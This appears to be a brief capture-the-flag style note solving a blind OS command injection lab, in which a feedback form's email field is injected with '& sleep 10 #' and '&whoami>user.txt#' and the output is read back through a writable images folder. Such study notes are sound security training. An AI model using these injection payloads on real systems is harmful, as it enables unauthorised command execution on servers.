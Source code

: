 ## Blind OS command injection with output redirection.
Vuln: feedback function
    -output is not returned in the response.
    - writable folder at: /var/www/images/
Soln: & sleep 10 #
    -after email -> &whoami>user.txt#
    -in /image folder -> user.txt